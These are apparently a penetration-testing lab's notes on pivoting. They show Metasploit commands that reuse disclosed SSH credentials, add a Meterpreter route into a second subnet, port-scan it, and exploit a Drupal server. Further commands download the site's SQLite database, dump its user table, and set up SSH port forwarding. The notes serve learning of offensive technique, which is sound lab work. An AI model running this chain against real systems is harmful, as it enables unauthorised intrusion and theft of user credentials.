 # Pivot Exploitation Notes

Lab using Metasploit to compromise an accessible host then use this host to pivot

We'll reuse the disclosed SSH credentials to gain a foothold on the SSH server

```
search sshexec
use 0
set RHOSTS 172.30.0.21
set USERNAME <user>
set PASSWORD <pass>
set LHOST eth0
exploit
```

Enumerating victim, gather info if other network interfaces exist 

```
shell
ifconfig
exit
```

Establishing meterpreter route

```
background
route add 172.40.0.0 255.255.255.0 1
```

Now scan with this route added

```
use auxiliary/scanner/portscan/tcp
set RHOSTS 172.40.0.3-20
set PORTS 80,443,8000,8080
```

## HTTP Recon with MSF

Info: the above scan shows one http client so now we are going to use MSF to test that port and see what's there

```
use auxiliary/scanner/http/http_header
set RHOSTS 172.40.0.10
run
```

## Drupal exploit

so from above we determined it's a drupal web server so we look for exploits and abuse one that exists in MSF

```
search type:exploit rank:excellent drupal
use 2
show info
set RHOSTS 172.40.0.10
set LHOST eth0
exploit
```

## Pillage drupal server

use meterpreter session to retrieve contents of the drupal db

```
download /var/www/html/sites/default/files/.ht.sqlite
```

dump the contents of the db

```
sqlite3 .ht.sqlite ".dump users_field_data"
```

## Using SSH

so instead of using MSF let's see how to port forward with SSH, this hosts port 8080 on the local system to point to port 80 on the target machine

```
ssh -L 8080:172.40.0.10:80 <user>@172.30.0.21
netstat -nat | grep 8080
```


